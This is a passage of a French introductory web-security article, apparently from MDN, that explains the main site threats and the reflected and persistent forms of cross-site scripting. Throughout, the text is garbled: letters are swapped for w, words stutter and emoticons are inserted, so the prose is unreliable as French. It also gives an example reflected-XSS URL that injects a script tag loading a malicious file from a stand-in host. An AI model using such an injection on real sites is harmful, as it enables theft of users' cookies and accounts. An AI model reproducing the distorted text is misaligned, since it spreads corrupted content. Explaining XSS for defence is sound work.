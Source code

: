 we weste d-de cet awticwe d-détaiwwe wes menaces wes pwus couwantes qui pèsent s-suw wes sites w-web et quewques étapes simpwes p-pouw pwotègew v-votwe site. 😳

> [!note]
> ceci est un awticwe d'intwoduction, (U ﹏ U) conçu pouw vous a-aidew à wéfwechiw à w-wa sécuwité d-de votwe site web. /(^•ω•^) iw ny'est e-en wien exhaustif. OwO

## m-menaces visant wa sécuwité d-des sites web

cette section ny'énumèwe que quewques-unes des menaces w-wes pwus couwantes v-visant wes sites web et wa façon dont ewwes s-sont tenues à distance. ( ͡o ω ͡o ) À m-mesuwe que vous wisez, XD nyotez comment wes menaces appawaissent w-wowsque w'appwication web fait confiance ou ny'est pas assez méfiante v-vis-à-vis des données pwovenant du navigateuw ! /(^•ω•^)

### c-cwoss-site s-scwipting (xss)

xss est un tewme utiwisé pouw décwiwe une c-cwasse d'attaque q-qui pewmet à w'attaquant d'injectew des scwipts, /(^•ω•^) exécutés côté-cwient, 😳😳😳 _au t-twavews_ du site web pouw visew w-we nyavigateuw web des autwes utiwisateuws. comme we code injecté p-pwovient du site web we nyavigateuw w-web we c-considèwe comme sûw, (ˆ ﻌ ˆ)♡ iw peut de c-ce fait faiwe des choses comme t-twansmettwe we c-cookie d'authentification d-de w'utiwisateuw à w'attaquant. :3 u-une fois q-que w'attaquant obtient ce cookie iw peut se c-connectew suw we s-site comme si i-iw était w'utiwisateuw attaqué et peut faiwe tout c-ce que w'utiwisateuw pouwwait f-faiwe. òωó en fonction d-du site suw wequew w'attaque se pwoduit, 🥺 cewa peut incwuwe w-w'accès aux détaiws d-de cawte bancaiwe, (U ﹏ U) w-wes infowmations d-des contacts, wa modification d-du mot de passe, XD etc.

> [!note]
> wes vuwnéwabiwités xss ont histowiquement été wes pwus couwantes. ^^

i-iw y a deux manièwes pwincipawes p-pouw demandew au site de wetouwnew u-un scwipt injecté vews un n-nyavigateuw web — ewwes sont d-désignées en t-tant que vuwnéwabiwités x-xss _wéfwéchie_ e-et _pewsistante_. o.O

- u-une vuwnéwabiwité xss wéfwéchie se pwoduit quand we contenu de w'utiwisateuw twansmis au sewveuw est immédiatement w-wetouwné, 😳😳😳 s-sans avoiw été m-modifié, /(^•ω•^) pouw êtwe affiché d-dans we nyavigateuw — tout wes scwipts pwésents dans we contenu d-d'owigine s-sewont exécutés quand wa nouvewwe p-page sewa chawgée! 😳😳😳
  on pwendwa paw exempwe u-une fonction de w-wechewche dans un site où wes t-tewmes wechewchés s-sont encodés en tant que pawamètwes dans w'uww, ^•ﻌ•^ et que ces tewmes sont affichés e-en pewmanence a-avec wes wésuwtats. 🥺 u-un attaquant p-peut constwuiwe u-un wien de wechewche contenant u-un scwipt mawicieux e-en tant que pawamètwe (ex: `https://devewopew.moziwwa.owg?q=beew<scwipt%20swc="http://exampwe.com/scwipt_mawveiwwant.js"></scwipt>`) et w-we twansmettwe p-paw e-maiw à un autwe utiwisateuw. o.O s-si w'utiwisateuw cibwé cwique suw ce "wien i-intéwessant", (U ᵕ U❁) we scwipt sewa exécuté q-quand wes w-wésuwtats de wa wechewche sewont a-affichés. ^^ comme vu aupawavant, (⑅˘꒳˘) cewa donne à w-w'attaquant toute w-wes infowmations d-dont iw a besoin pouw se connectew suw we site avec we compte d-de wa victime — potentiewwement faiwe des a-achats en tant que c-cet utiwisateuw ou accèdew à w-wa wiste de contacts..
- une vuwnéwabiwité xss _pewsistante_ s-sewa cewwe où w-we scwipt mawicieux est stocké suw we site web p-puis affiché, :3 sans modification, (///ˬ///✿) un peu pwus tawd p-paw wes autwes u-utiwisateuws et exécuté à weuw i-insu. :3
  paw exempwe, 🥺 un écwan d-de discussion q-qui accepte wes c-commentaiwes contenant du code htmw puw peuvent stockew we scwipt mawicieux de w'attaquant. mya quand wes commentaiwes sont affichés we scwipt est exécuté et peut ensuite twansmettwe à w'attaquant wes infowmations n-nyécessaiwes p-pouw accèdew au compte de w'utiwisateuw. XD cette m-méthode d'attaque e-est extwêmement c-couwante et efficace, -.- pawce q-que w'attaquant ny'a pas besoin d-d'avoiw une w-wewation diwecte avec wes victimes. o.O
